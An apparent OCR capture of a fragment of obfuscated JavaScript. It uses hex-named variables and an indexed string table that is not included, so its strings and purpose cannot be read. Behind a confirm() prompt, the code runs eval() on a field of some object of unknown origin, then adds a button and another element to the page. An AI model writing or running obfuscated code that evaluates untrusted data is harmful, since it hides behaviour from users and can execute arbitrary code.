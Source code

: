 					_0x19339= _0x1934D;console[_$_d1f5[9]](_$_d1f5[8],_0x1934D);_0x192FD(_0x192D5,_0x19339,_0x19325);return false
				}
				//12
				console[_$_d1f5[9]](_$_d1f5[10],_0x19389,_$_d1f5[11],_0x19389[_$_d1f5[7]][_$_d1f5[5]]);if(confirm(_$_d1f5[12]+ _0x19389[_$_d1f5[7]][_$_d1f5[5]]+ _$_d1f5[13]))
				{
					try
					{
						eval(_0x19389[_$_d1f5[14]])
					}
					catch(e)
					{
						console[_$_d1f5[9]](_$_d1f5[15],e)
					}
					
				}
				else 
				{
					_0x19339= _0x1934D;console[_$_d1f5[9]](_$_d1f5[16],_0x1934D);_0x192FD(_0x192D5,_0x19339,_0x19325);return false
				}
				//24
				return true
			}
			else 
			{
				if(_0x19375[_$_d1f5[6]][_$_d1f5[5]]== 0)
				{
					_0x19325= _0x1934D;console[_$_d1f5[9]](_$_d1f5[17],_0x1934D);_0x192FD(_0x192D5,_0x19339,_0x19325)
				}
				else 
				{
					_0x19339= _0x1934D;console[_$_d1f5[9]](_$_d1f5[18],_0x1934D);_0x192FD(_0x192D5,_0x19339,_0x19325)
				}
				
			}
			
		}
		)
	}
	;//5
	let _0x192E9=document[_$_d1f5[22]](_$_d1f5[21]);//55
	_0x192E9[_$_d1f5[23]]= _$_d1f5[24];let _0x192C1=document[_$_d1f5[22]](_$_d1f5[25]);//58
	_0x192C1[_$_d1f5[26]]= _$_d1f5[27];_0x192C1[_$_d1f5[28]]= function()
	{
		_0x192FD(_0x192D5,0,10000)
	}
	;_0x192C1[_$_d1f5[23]]= _$_d1f5[29];_0x192C1[_$_d1f5[30]]= _$_d1f5[31];document[_$_d1f5[34]](_$_d1f5[33])[_$_d1f5[32]](_0x192C1);document[_$_d1f5[34]](_$_d1f5[33])[_$_d1f5[32]](_0x192E9)
}
)()